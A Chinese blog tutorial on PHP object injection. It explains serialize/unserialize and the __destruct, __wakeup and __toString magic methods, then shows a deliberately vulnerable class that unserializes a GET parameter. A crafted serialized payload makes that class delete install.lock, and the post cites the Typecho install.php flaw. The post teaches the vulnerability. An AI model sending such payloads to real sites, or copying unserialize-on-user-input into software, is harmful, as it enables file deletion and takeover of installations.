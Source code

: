 ```yaml
---
title: "PHP 对象注入"
date: 2018-05-13T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php']
categories: ['编程']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



序列化 (serialize) 指将 PHP 变量/数组/函数/类 转换为可保存或传输的过程, 再通过反序列化 (unserialize) 转换为原来的数据使用.

<!--more-->

关于反序列化 有 3 个魔术方法.

```
__destruct - 程序结束时调用
__wakeup - 类被反序列化时调用
__toString - 类被作为字符串时调用
```

# Example 1

```
class Test{
	var $name = 'hello';
	public function __destruct(){
		echo $this->name;
	}
```

该类实例化后将在程序结束时打印出 name 的值.

更改 name 的值, 之后序列化.

```
$test = new Test();
$test->name = 'world';
echo serialize($test);

O:4:"Test":1:{s:4:"name";s:5:"world";}
```

反序列化.

```
$u = unserialize('O:4:"Test":1:{s:4:"name";s:5:"world";}');
```

```
world
```

# Example 2

```
class FileClass{

	var $filename;
	var $content;

	public function __construct($filename,$content){
		$this->filename = $filename;
		$this->content = $content;
	}

	public function write($content){
		file_put_contents($this->filename,$content);
	}

	public function __destruct(){
		echo 'clean file'.$this->filename;
		@unlink($this->filename);
	}
}

$u = unserialize($_GET['u']);
?>
```

利用

```
class FileClass{
	var $filename = 'install.lock';
}
echo serialize(new FileClass());
```

GET 传递 `O:9:"FileClass":1:{s:8:"filename";s:12:"install.lock";}`

```
clean file install.lock
```

# Other

参考 Typecho install.php 反序列化漏洞

https://paper.seebug.org/424/